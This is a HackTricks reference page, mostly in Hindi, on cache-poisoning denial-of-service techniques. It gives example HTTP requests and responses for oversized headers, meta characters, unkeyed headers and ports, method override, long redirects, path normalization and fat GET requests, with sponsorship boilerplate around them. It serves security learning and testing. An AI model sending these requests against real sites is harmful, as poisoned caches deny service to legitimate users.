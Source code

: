 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
इस पृष्ठ पर आप विभिन्न प्रकार के प्रयास कर सकते हैं ताकि **वेब सर्वर अनुरोधों के लिए त्रुटियों के साथ प्रतिक्रिया दे** जो **कैश सर्वरों के लिए मान्य हैं**
{% endhint %}

* **HTTP Header Oversize (HHO)**

एक अनुरोध भेजें जिसमें हेडर का आकार वेब सर्वर द्वारा समर्थित आकार से बड़ा हो लेकिन कैश सर्वर द्वारा समर्थित आकार से छोटा हो। वेब सर्वर 400 प्रतिक्रिया के साथ प्रतिक्रिया देगा जो कैश किया जा सकता है:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP मेटा कैरेक्टर (HMC) और अप्रत्याशित मान**

एक हेडर भेजें जिसमें कुछ **हानिकारक मेटा कैरेक्टर** जैसे `\n` और `\r` शामिल हों। हमले के सफल होने के लिए आपको पहले कैश को बायपास करना होगा।
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
A badly configured header could be just `\:` as a header.

यह भी काम कर सकता है यदि अप्रत्याशित मान भेजे जाएं, जैसे अप्रत्याशित Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Unkeyed header**

कुछ वेबसाइटें एक त्रुटि स्थिति कोड लौटाएंगी यदि वे अनुरोध में कुछ विशिष्ट हेडर जैसे _X-Amz-Website-Location-Redirect: someThing_ हेडर को **देखती हैं**:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Method Override Attack (HMO)**

यदि सर्वर `X-HTTP-Method-Override`, `X-HTTP-Method` या `X-Method-Override` जैसे हेडर के साथ HTTP विधि को बदलने का समर्थन करता है। तो एक वैध पृष्ठ का अनुरोध करना संभव है, विधि को बदलकर ताकि सर्वर इसका समर्थन न करे और एक खराब प्रतिक्रिया कैश हो जाए:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Unkeyed Port**

यदि Host हेडर में पोर्ट प्रतिक्रिया में परिलक्षित होता है और कैश कुंजी में शामिल नहीं होता है, तो इसे एक अप्रयुक्त पोर्ट पर पुनर्निर्देशित करना संभव है:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

जैसे कि निम्नलिखित उदाहरण में, x को कैश नहीं किया जा रहा है, इसलिए एक हमलावर रीडायरेक्ट प्रतिक्रिया के व्यवहार का दुरुपयोग कर सकता है ताकि रीडायरेक्ट एक ऐसा URL भेजे जो इतना बड़ा हो कि यह एक त्रुटि लौटाए। फिर, जो लोग बिना कैश किए गए x कुंजी के URL तक पहुँचने की कोशिश करेंगे, उन्हें त्रुटि प्रतिक्रिया मिलेगी:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **होस्ट हेडर केस सामान्यीकरण**

होस्ट हेडर को केस-संवेदनशील नहीं होना चाहिए लेकिन कुछ वेबसाइटें इसे लोअरकेस में अपेक्षित करती हैं, यदि यह ऐसा नहीं है तो एक त्रुटि लौटाती हैं:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **पथ सामान्यीकरण**

कुछ पृष्ठ त्रुटि कोड लौटाएंगे जब पथ में डेटा URLencode किया जाएगा, हालाँकि, कैश सर्वर पथ को URLdecode करेगा और URLdecoded पथ के लिए प्रतिक्रिया को संग्रहीत करेगा:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

कुछ कैश सर्वर, जैसे Cloudflare, या वेब सर्वर, बॉडी के साथ GET अनुरोधों को रोकते हैं, इसलिए इसका दुरुपयोग एक अमान्य प्रतिक्रिया को कैश करने के लिए किया जा सकता है:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## संदर्भ

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
